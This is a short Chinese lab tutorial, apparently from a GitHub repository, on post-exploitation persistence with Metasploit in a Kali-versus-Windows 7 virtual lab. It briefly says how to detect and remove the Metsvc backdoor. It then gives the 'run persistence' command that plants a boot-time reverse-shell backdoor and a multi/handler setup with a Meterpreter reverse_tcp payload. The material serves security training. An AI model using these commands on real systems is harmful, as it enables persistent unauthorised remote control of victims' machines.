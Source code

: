   Metsvc固定在端口31337运行，可以通过端口扫描软件查看是否开放该端口或提供相应服务。如发现该后门，在注册表中找到木马文件并删除即可恢复正常。

### 2. **Persistence**

- **虚拟机实验环境**

  一台kail

  一台windows7

  Kail已有靶机管理员权限

- **操作过程**

  1. 使用指令run persistence -X -A -i 20 -p 6666 -r 192.168.236.130（主机ip（接收反弹的主机地址））[如指令使用失败，与Metsvc原因相同]

     ![persistence_1](./痕迹清除/persistence_1.png)

  2. 连接端口（可以不修改）

     ```
     Use exploit/multi/handler
     Set payload windows/meterpreter/reverse_tcp
     Set lhost 靶机ip
     Set lport 上方设置的端口号
     ```

     ![persistence_2](./痕迹清除/persistence_2.png)
